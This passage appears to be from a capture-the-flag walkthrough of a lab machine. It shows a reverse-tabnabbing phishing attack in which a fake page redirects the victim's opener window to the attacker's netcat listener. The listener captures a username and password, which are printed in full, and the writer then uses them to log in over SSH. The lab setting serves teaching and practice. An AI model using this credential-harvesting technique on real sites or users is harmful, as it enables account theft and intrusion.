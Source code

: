 ## Server start
- Start a simple python server on an unoccupied port
  ```
  ┌──(kali㉿kali)-[~/Documents/fake_website]
  └─$ python3 -m http.server 8081
  Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
  ```
- Set up a listener with `nc -lnvp 8082`. The port mentioned should be the same used in
`window.opener.location = "http://10.0.2.8:8082/index.html"`

## Attack
- Provide in the victim form the link pointing to your fake page in this fashion: `http://yourIpAddress:serverPort/submit.html`
   ![submit link](images/.png)
- inspect your listener and after a few seconds
  ```
  ┌──(kali㉿kali)-[~]
  └─$ nc -lnvp 8082
  listening on [any] 8082 ...
  connect to [10.0.2.8] from (UNKNOWN) [10.0.2.7] 33238
  POST /index.html HTTP/1.1
  Host: 10.0.2.8:8082
  User-Agent: python-requests/2.22.0
  Accept-Encoding: gzip, deflate
  Accept: */*
  Connection: keep-alive
  Content-Length: 45
  Content-Type: application/x-www-form-urlencoded
  username=daniel&password=C%40ughtm3napping123
  ```
- mind that the password is url encoded and you can easily decode in burpsuite or online.
- from now on we can get access to the target machine through ssh or directly from the vulnerable machine interface
- I choose to proceed with ssh. `ssh daniel@10.0.2.7 -p 22 `
- Enter the decoded password ( which is C@ughtm3napping123 if not already done)
```
daniel@10.0.2.7's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 20 06:37:16 UTC 2024

  System load:  0.0                Processes:               137
  Usage of /:   46.0% of 18.57GB   Users logged in:         0
  Memory usage: 15%                IPv4 address for enp0s3: 10.0.2.7
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

336 updates can be applied immediately.
261 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
```